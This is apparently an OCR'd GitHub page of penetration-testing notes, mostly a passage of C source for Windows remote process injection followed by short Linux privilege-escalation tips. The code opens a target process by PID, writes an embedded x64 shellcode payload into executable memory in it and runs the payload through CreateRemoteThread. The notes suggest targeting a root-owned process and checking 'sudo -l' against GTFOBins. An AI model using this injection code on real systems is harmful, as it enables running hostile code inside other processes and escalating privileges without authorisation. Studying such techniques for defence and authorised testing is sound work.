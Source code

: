```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

int main(int argc, char *argv[])
{
    unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
        "\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
        "\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
        "\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
        "\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
        "\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
        "\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
        "\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
        "\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
        "\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
        "\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
        "\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
        "\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
        "\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
        "\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f"
        "\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
        "\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
        "\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x6e\x6f\x74"
        "\x65\x70\x61\x64\x00";
  
    char* a = argv[1];
    DWORD pid = atoi(a);
    printf("this pid is: %d\n", pid);
    HANDLE hproc = OpenProcess(PROCESS_ALL_ACCESS, 0, pid);
    printf("the handle is: %x\n", hproc);
    LPVOID remoteBuffer = VirtualAllocEx(hproc, NULL, sizeof(shellcode), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    printf("the remote buffer is allocated at: 0x%llx\n", remoteBuffer);
    WriteProcessMemory(hproc, remoteBuffer, shellcode, sizeof(shellcode), NULL);
    HANDLE remoteThread = CreateRemoteThread(hproc, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(hproc);
}
```
Basic.exe pid of process run by root(tasklist /FO TABLE /NH)
##### Advanced Process Injection
```
compile AdvancedProcessInjection.cpp
AdvancedProcessInjection.exe pid
```
# Linux
### Directory Permissions
>A directory is handled differently from a file. Read access gives the right to consult the list of its contents (files and directories). Write access allows creating or deleting files. Finally, execute access allows crossing through the directory to access its contents (using the cd command, for example).
###### Check what sudo permissions the user has available to them
```
sudo -l (if anything interesting, go look for in GTFOBins)
```
### Priviledge Escalation Script
```
```